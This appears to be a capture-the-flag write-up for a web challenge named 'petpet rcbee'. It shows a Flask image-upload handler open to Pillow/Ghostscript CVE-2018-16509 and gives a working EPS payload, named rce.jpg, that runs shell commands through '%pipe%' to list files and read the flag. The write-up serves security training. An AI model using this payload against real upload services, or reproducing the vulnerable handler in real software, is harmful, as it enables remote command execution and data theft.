 # petpet rcbee
![Screenshot from 2021-08-16 10-06-29](https://user-images.githubusercontent.com/87865134/129506331-94da930c-4481-4b1d-97ff-48b10e50c94d.png)

## - Download source code and analysis
- found a vulnerability in `Image.open()` (Python PIL/Pillow Remote Shell Command Execution via Ghostscript CVE-2018-16509):
```python
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400

    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)

        filename = f'{generate(14)}.gif'
        finalpet[0].save(
            f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
            save_all=True, 
            duration=30, 
            loop=0, 
            append_images=finalpet[1:], 
        )

        os.unlink(tmp_path)

        return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200

    except:
        return {'status': 'failed', 'message': 'Something went wrong'}, 500
```

## - Exploit
### 1. Create file `rce.jpg` with `eps` structure:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%ls > application/static/petpets/flag.txt) currentdevice putdeviceprops

```

### 2. Upload file `rce.jpg`, navigate to the directory and see all file in current directory
![Screenshot from 2021-08-16 10-14-12](https://user-images.githubusercontent.com/87865134/129506874-b62626ee-d369-4c42-8b86-baf5172e1e68.png)
> found `flag` file

### 3. Change file `rce.jpg` to get content of `flag` file
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > application/static/petpets/flag.txt) currentdevice putdeviceprops
```

### 4. Upload file `rce.jpg`, navigate to the directory and get flag
![Screenshot from 2021-08-16 10-17-29](https://user-images.githubusercontent.com/87865134/129506993-12ffe6c2-70c1-4777-8c9a-413ccf6d227e.png)

## - Description
> **category:** File upload

## - Reference:
- [CVE-2018-16509](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-16509)
- https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509
